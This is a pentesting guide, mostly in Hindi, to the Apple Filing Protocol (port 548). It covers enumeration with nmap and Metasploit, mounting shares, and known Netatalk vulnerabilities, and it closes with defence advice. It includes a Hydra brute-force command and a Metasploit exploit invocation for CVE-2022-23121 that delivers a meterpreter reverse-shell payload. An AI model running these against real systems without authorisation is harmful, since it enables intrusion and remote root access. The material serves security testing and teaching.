 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**Apple Filing Protocol** (**AFP**), जिसे पहले AppleTalk Filing Protocol के नाम से जाना जाता था, एक विशेष नेटवर्क प्रोटोकॉल है जो **Apple File Service** (**AFS**) के अंतर्गत आता है। यह macOS और क्लासिक Mac OS के लिए फ़ाइल सेवाएँ प्रदान करने के लिए डिज़ाइन किया गया है। AFP यूनिकोड फ़ाइल नामों, POSIX-शैली और ACL अनुमतियों, संसाधन फोर्क, नामित विस्तारित विशेषताओं और जटिल फ़ाइल-लॉकिंग तंत्रों का समर्थन करने के लिए खड़ा है।

हालांकि AFP को आधुनिक macOS रिलीज़ में SMB द्वारा प्रतिस्थापित किया गया है (OS X 10.9 से SMB डिफ़ॉल्ट है), यह अभी भी निम्नलिखित में पाया जाता है:

* विरासती macOS / Mac OS 9 वातावरण
* NAS उपकरण (QNAP, Synology, Western Digital, TrueNAS…) जो ओपन-सोर्स **Netatalk** डेमन को एम्बेड करते हैं
* मिश्रित-OS नेटवर्क जहाँ Time-Machine-over-AFP अभी भी सक्षम है

**डिफ़ॉल्ट TCP पोर्ट:** **548** (AFP over TCP / DSI)
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## Enumeration

### Quick banner / server info
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
उपयोगी AFP NSE स्क्रिप्ट:

| स्क्रिप्ट | यह क्या करता है |
|----------|------------------|
| **afp-ls**            | उपलब्ध AFP वॉल्यूम और फ़ाइलों की सूची बनाता है |
| **afp-brute**         | AFP लॉगिन के खिलाफ पासवर्ड ब्रूट-फोर्स करता है |
| **afp-serverinfo**    | सर्वर का नाम, मशीन प्रकार, AFP संस्करण, समर्थित UAMs आदि को डंप करता है |
| **afp-showmount**     | शेयरों की सूची बनाता है साथ ही उनके ACLs के साथ |
| **afp-path-vuln**     | निर्देशिका-क्रॉसिंग, CVE-2010-0533 का पता लगाता है (और इसका शोषण कर सकता है) |

यदि अधिक नियंत्रण की आवश्यकता है तो NSE ब्रूट-फोर्स स्क्रिप्ट को Hydra/Medusa के साथ जोड़ा जा सकता है:
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### शेयरों के साथ इंटरैक्ट करना

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*Linux* (using `afpfs-ng` ‑ अधिकांश डिस्ट्रीब्यूशनों में पैक किया गया)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
एक बार माउंट होने के बाद, याद रखें कि क्लासिक मैक रिसोर्स-फोर्क्स को छिपे हुए `._*` AppleDouble फ़ाइलों के रूप में संग्रहीत किया जाता है - इनमें अक्सर दिलचस्प मेटाडेटा होता है जिसे DFIR उपकरण मिस कर देते हैं।

---

## सामान्य कमजोरियाँ और शोषण

### Netatalk बिना प्रमाणीकरण RCE श्रृंखला (2022)

कई NAS विक्रेताओं ने **Netatalk ≤3.1.12** भेजा। `parse_entries()` में सीमाओं की जांच की कमी एक हमलावर को एक दुर्भावनापूर्ण **AppleDouble** हेडर बनाने और प्रमाणीकरण से पहले **remote root** प्राप्त करने की अनुमति देती है (**CVSS 9.8 – CVE-2022-23121**)। NCC Group द्वारा Western-Digital PR4100 का शोषण करते हुए PoC के साथ एक पूर्ण लेख उपलब्ध है।

Metasploit (>= 6.3) मॉड्यूल `exploit/linux/netatalk/parse_entries` के साथ आता है जो DSI `WRITE` के माध्यम से पेलोड प्रदान करता है।
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
यदि लक्ष्य प्रभावित QNAP/Synology फर्मवेयर चलाता है, तो सफल शोषण **root** के रूप में एक शेल प्रदान करता है।

### Netatalk OpenSession heap overflow (2018)

पुराना Netatalk (3.0.0 - 3.1.11) **DSI OpenSession** हैंडलर में एक आउट-ऑफ-बाउंड्स लिखने के लिए संवेदनशील है, जो बिना प्रमाणीकरण के कोड निष्पादन की अनुमति देता है (**CVE-2018-1160**)। Tenable Research द्वारा एक विस्तृत विश्लेषण और PoC प्रकाशित किया गया था।

### अन्य उल्लेखनीय मुद्दे

* **CVE-2022-22995** – Symlink पुनर्निर्देशन जो AppleDouble v2 सक्षम होने पर मनमाने फ़ाइल लेखन / RCE की ओर ले जाता है (3.1.0 - 3.1.17)।
* **CVE-2010-0533** – Apple Mac OS X 10.6 AFP में निर्देशिका traversal (जिसे `afp-path-vuln.nse` द्वारा पता लगाया गया)।
* **Netatalk 4.x (2024)** में कई मेमोरी-सुरक्षा बग को ठीक किया गया – व्यक्तिगत CVEs को पैच करने के बजाय अपग्रेड करने की सिफारिश की जाती है।

---

## रक्षा सिफारिशें

1. **AFP को निष्क्रिय करें** जब तक कि यह सख्ती से आवश्यक न हो – इसके बजाय SMB3 या NFS का उपयोग करें।
2. यदि AFP रहना चाहिए, तो **Netatalk को ≥ 3.1.18 या 4.x** में अपग्रेड करें, या विक्रेता फर्मवेयर लागू करें जो 2022/2023/2024 पैच को बैक-पोर्ट करता है।
3. **Strong UAMs** (जैसे *DHX2*) को लागू करें, स्पष्ट-टेक्स्ट और अतिथि लॉगिन को निष्क्रिय करें।
4. TCP 548 को विश्वसनीय उपनेट्स तक सीमित करें और जब दूरस्थ रूप से उजागर हो, तो AFP को एक VPN के अंदर लपेटें।
5. समय-समय पर `nmap -p 548 --script afp-*` के साथ CI/CD में स्कैन करें ताकि बागी / डाउनग्रेडेड उपकरणों को पकड़ा जा सके।

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## संदर्भ

* Netatalk सुरक्षा सलाहकार CVE-2022-23121 – "parse_entries में मनमाना कोड निष्पादन" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "18 साल पुराने बग (CVE-2018-1160) का शोषण" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
